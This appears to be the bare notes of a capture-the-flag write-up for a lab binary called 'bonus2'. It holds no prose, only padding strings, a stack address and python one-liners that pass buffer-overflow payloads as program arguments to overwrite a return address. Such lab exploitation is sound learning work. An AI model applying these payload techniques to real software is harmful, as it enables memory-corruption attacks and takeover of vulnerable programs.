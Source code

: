 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

AAAAAAAAAAAAAAAAAAAAAAAAAA arg2

0xbffff92d

BBBBBBBBBBBBBBBBBBBBBBBBBB

./bonus2 $(python -c 'print "A" * 26 + "\x2d\xf9\xff\xbf" + "A" * 10') $(python -c 'print "B" * 26')

r $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHH" + "\x2d\xf9\xff\xbf" + "IIJJJJ"') $(python -c 'print "B" * 26')

./bonus2 $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHH" + "\x2d\xf9\xff\xbf" + "IJJJJ"') $(python -c 'print "B" * 23 + "\x2d\xf9\xff\xbf"')